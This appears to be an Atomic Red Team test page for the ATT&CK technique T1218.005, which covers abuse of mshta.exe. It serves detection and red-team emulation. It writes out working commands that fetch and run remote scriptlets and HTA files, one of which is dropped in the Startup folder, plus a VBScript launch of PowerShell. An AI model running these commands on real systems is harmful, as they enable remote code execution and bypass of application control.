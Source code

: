 # T1218.005 - Mshta
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1218/005)
<blockquote>Adversaries may abuse mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted Windows utility. There are several examples of different types of threats leveraging mshta.exe during initial compromise and for execution of code (Citation: Cylance Dust Storm) (Citation: Red Canary HTA Abuse Part Deux) (Citation: FireEye Attacks Leveraging HTA) (Citation: Airbus Security Kovter Analysis) (Citation: FireEye FIN7 April 2017) 

Mshta.exe is a utility that executes Microsoft HTML Applications (HTA) files. (Citation: Wikipedia HTML Application) HTAs are standalone applications that execute using the same models and technologies of Internet Explorer, but outside of the browser. (Citation: MSDN HTML Applications)

Files may be executed by mshta.exe through an inline script: <code>mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))</code>

They may also be executed directly from URLs: <code>mshta http[:]//webserver/payload[.]hta</code>

Mshta.exe can be used to bypass application control solutions that do not account for its potential use. Since mshta.exe executes outside of the Internet Explorer's security context, it also bypasses browser security settings. (Citation: LOLBAS Mshta)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Mshta executes JavaScript Scheme Fetch Remote Payload With GetObject](#atomic-test-1---mshta-executes-javascript-scheme-fetch-remote-payload-with-getobject)

- [Atomic Test #2 - Mshta executes VBScript to execute malicious command](#atomic-test-2---mshta-executes-vbscript-to-execute-malicious-command)

- [Atomic Test #3 - Mshta Executes Remote HTML Application (HTA)](#atomic-test-3---mshta-executes-remote-html-application-hta)


<br/>

## Atomic Test #1 - Mshta executes JavaScript Scheme Fetch Remote Payload With GetObject
Test execution of a remote script using mshta.exe. Upon execution calc.exe will be launched.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| file_url | location of the payload | Url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1218.005/src/mshta.sct|


#### Attack Commands: Run with `command_prompt`! 


```cmd
mshta.exe javascript:a=(GetObject('script:#{file_url}')).Exec();close();
```






<br/>
<br/>

## Atomic Test #2 - Mshta executes VBScript to execute malicious command
Run a local VB script to run local user enumeration powershell command.
This attempts to emulate what FIN7 does with this technique which is using mshta.exe to execute VBScript to execute malicious code on victim systems.
Upon execution, a new PowerShell windows will be opened that displays user information.

**Supported Platforms:** Windows





#### Attack Commands: Run with `command_prompt`! 


```cmd
mshta vbscript:Execute("CreateObject(""Wscript.Shell"").Run ""powershell -noexit -file PathToAtomicsFolder\T1218.005\src\powershell.ps1"":close")
```






<br/>
<br/>

## Atomic Test #3 - Mshta Executes Remote HTML Application (HTA)
Execute an arbitrary remote HTA. Upon execution calc.exe will be launched.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| temp_file | temp_file location for hta | string | $env:appdata&#92;Microsoft&#92;Windows&#92;Start Menu&#92;Programs&#92;Startup&#92;T1218.005.hta|
| hta_url | URL to HTA file for execution | string | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1218.005/src/T1218.005.hta|


#### Attack Commands: Run with `powershell`! 


```powershell
$var =Invoke-WebRequest "#{hta_url}"
$var.content|out-file "#{temp_file}"
mshta "#{temp_file}"
```

#### Cleanup Commands:
```powershell
remove-item "#{temp_file}" -ErrorAction Ignore
```





<br/>
